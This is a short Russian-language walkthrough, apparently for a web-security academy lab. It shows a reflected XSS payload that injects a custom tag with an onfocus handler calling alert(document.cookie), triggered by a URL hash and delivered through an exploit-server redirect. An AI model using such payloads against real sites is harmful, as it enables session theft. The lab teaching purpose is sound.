 1. Перейдите на сервер эксплойтов и вставьте следующий код, заменив его YOUR-LAB-IDидентификатором вашей лаборатории: 

<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>

![image](https://github.com/user-attachments/assets/008ac350-3bfb-45b3-98ff-71d8fa93c86a)


2. Нажмите «Магазин» и «Доставить эксплойт жертве».

Эта инъекция создает пользовательский тег с ID x, который содержит onfocusобработчик событий, который запускает alertфункцию. Хэш в конце URL фокусируется на этом элементе, как только страница загружается, вызывая вызов alertполезной нагрузки.

